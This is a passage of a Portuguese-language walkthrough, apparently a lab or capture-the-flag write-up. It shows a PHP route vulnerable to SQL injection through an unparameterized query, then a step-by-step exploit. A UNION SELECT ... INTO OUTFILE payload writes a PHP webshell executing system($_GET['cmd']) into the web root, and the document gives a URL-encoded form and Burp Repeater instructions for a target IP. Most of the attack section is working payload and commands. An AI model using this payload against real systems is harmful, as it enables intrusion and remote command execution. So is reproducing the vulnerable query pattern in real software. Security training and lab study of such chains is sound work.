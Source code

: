 Via code review (em um `backup.zip` baixado da aplicação), o write-up mostra que:

```php
$app->get('/_ul/usuarios/{id}', function ($request, $response, $args) {
    $sql = "SELECT * FROM usuarios WHERE id = $args[id]";
    ...
});
```

**Vulnerável a SQL Injection**, pois **não usa prepared statements**.

---

##  **PASSO 6 – SQL Injection para RCE**

###  Objetivo: escrever uma **webshell PHP** no servidor usando SQLi + `INTO OUTFILE`.

---

### 1. Payload original:

```sql
3 UNION SELECT 1,"<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/classes/vert16x.class.php'
```

---

### 2. Encodar com URL Encode

Usando [https://www.urlencoder.io/](https://www.urlencoder.io/), o resultado é:

```
3%20UNION%20SELECT%201%2C%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%20INTO%20OUTFILE%20%27%2Fvar%2Fwww%2Fhtml%2Fclasses%2Fvert16x.class.php%27
```

---

### 3. Enviar via **Burp Suite** (como no PDF)

- Abra o **Burp Suite**
    
- Intercepte o navegador
    
- Faça a requisição para:
    

```
http://<IP-ALVO>/_ul/usuarios/3%20UNION%20SELECT%201%2C%22%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%22%20INTO%20OUTFILE%20%27%2Fvar%2Fwww%2Fhtml%2Fclasses%2Fvert16x.class.php%27
```

- Envie via **Burp Repeater**
    

Se a resposta for `null`, deu certo → a **webshell foi criada**.

---